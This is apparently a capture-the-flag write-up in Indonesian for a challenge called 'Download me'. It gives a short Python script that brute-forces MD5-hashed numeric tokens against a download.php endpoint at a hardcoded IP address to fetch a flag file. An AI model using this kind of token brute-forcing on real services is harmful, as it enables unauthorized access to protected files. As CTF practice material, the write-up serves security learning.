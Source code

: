 # Download me

diberikan sebuah web beserta dengan pengecekan token<br>
asumsi adalah token merupakan size dari file txt tsb<br>
bruteforce dengan intruder attack md5hash 1 - 50<br> 

berikut script<br>
```
import hashlib,requests

url = "http://165.22.22.11:25632/download.php?file=flag.txt&token="

for i in range(50):
        print i
        bf = hashlib.md5(str(i).encode()).hexdigest()
        hasil = requests.get(url+bf)
        if "Invalid" not in hasil.text :
                print hasil.text

#print hashlib.md5("34".encode()).hexdigest()

```

